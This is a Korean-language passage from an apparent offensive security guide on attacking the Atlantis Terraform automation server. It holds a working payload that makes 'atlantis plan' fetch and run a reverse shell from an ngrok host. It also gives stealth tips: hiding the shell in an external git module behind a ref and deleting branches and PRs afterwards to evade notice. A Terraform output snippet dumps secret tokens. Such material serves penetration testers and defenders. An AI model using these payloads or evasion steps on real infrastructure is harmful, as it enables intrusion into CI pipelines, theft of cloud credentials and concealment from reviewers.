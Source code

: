 ```bash
## -p project
## -w workspace
## --auto-merge-disabled
## --verbose
## You can also add extra terraform options
```
## 공격

{% hint style="warning" %}
만약 공격 중에 다음 **에러**를 발견한다면: `Error: Error acquiring the state lock`

다음을 실행하여 해결할 수 있습니다:
```
atlantis unlock #You might need to run this in a different PR
atlantis plan -- -lock=false
```
{% endhint %}

### Atlantis plan RCE - 새 PR에서 구성 수정

만약 귀하가 저장소에 쓰기 액세스 권한이 있다면 해당 저장소에 새 브랜치를 생성하고 PR을 생성할 수 있습니다. **`atlantis plan`을 실행할 수 있다면(또는 자동으로 실행되는 경우)** Atlantis 서버 내에서 RCE를 실행할 수 있습니다.

이를 수행하는 방법은 [**Atlantis가 외부 데이터 소스를 로드하도록 하는 것**](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source)입니다. `main.tf` 파일에 다음과 같은 payload를 넣으면 됩니다:
```json
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### 은밀한 공격

이 공격을 **더 은밀하게** 수행할 수 있습니다. 다음 제안을 따르세요:

* 테라폼 파일에 직접 rev 쉘을 추가하는 대신, rev 쉘을 포함하는 **외부 리소스를 로드**할 수 있습니다:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
rev shell 코드는 [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)에서 찾을 수 있습니다.

* 외부 자원에서는 **ref** 기능을 사용하여 **레포지토리 내의 브랜치에 terraform rev shell 코드를 숨기세요**, 다음과 같이: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`
* Atlantis를 트리거하기 위해 **master에 PR을 생성하는 대신**, **2개의 브랜치(test1 및 test2)를 생성**하고 **한 브랜치에서 다른 브랜치로 PR을 생성**하세요. 공격을 완료하면 **PR과 브랜치를 제거**하세요.

### Atlantis plan Secrets Dump

`atlantis plan` (`terraform plan`)을 실행하여 **terraform에서 사용된 비밀 정보를 덤프**할 수 있습니다. 이를 위해 terraform 파일에 다음과 같은 내용을 넣으세요:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
### Atlantis RCE 적용 - 새 PR에서 구성 수정
